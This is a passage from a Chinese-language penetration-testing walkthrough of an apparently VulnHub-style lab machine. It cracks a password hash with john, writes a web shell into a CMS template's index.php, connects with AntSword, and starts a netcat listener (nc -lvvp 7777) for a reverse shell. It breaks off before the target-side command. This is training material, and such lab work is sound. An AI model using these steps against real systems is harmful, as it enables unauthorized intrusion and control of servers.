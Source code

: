 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlYwwbRg7IribwWlL3RuCL5qcETpgC3q1xJVBvERoPy3K8B5m2htYfIiag/640?wx_fmt=png&from=appmsg "")  
  
  
  
得到用户名和密码，但是密码被加密了，我们可以用john解密  
#### john解密密码  
  
先把密码保存为1.txt  
```
john 1.txt
```  
```

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWl7VmE9DkBNuMj096MsYUc2LZciaHbAUWDKs3N0sHfzOehEO9vgKhMKVQ/640?wx_fmt=png&from=appmsg "")  
  
  
得到密码为snoopy，登录成功  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlSoxs6tCnyoeB849qNyT3lzr78m74WNK0sFTBapk3hiaZ9xuIqPTM2zQ/640?wx_fmt=png&from=appmsg "")  
  
  
对这个网址逛了一会，发现在Templates下的模版里的php文件可以写入  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWl5m5iaovRtw5gkTN8F7oWiaEE6PWTDVp5ibIBqkIaVb8Xf55I7pRPD9DVg/640?wx_fmt=png&from=appmsg "")  
  
  
### 上传小马蚁剑连接  
  
我们可以上传我们的小马，随便打开一个模版中的index.php文件(index.php一般是网站的主页面),然后用蚁剑或者哥斯拉连接，我比较习惯用蚁剑连接  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWl4p3jVPRdfCdd2bLebgylfGw5P6icnhJ6Ntb46CIhJVxFJicibJaYyUiccg/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/dWDX1PL0ibkQ7eMJHOsNHqtic3Yj4RQibWlmd51nEf6iaFrcQ0vhJDu4tZgMF6icfibErwibiaIjrI5iaHVH5dUkXyEicYxw/640?wx_fmt=png&from=appmsg "")  
  
  
  
我们进入终端发现权限是普通用户（www-data），所以我们要反弹shell，和VunHub的这一个靶场一样：  
> https://blog.csdn.net/2301_77091612/article/details/146175276?fromshare=blogdetail&amp;sharetype=blogdetail&amp;sharerId=146175276&amp;sharerefer=PC&amp;sharesource=2301_77091612&amp;sharefrom=from_link  
  
> csdn  
  
#### 先开启kali（192.168.2.129）的监听端口  
```
nc -lvvp 7777
```  
```

```  
#### nc反弹  
  
**靶机端**  
：  
  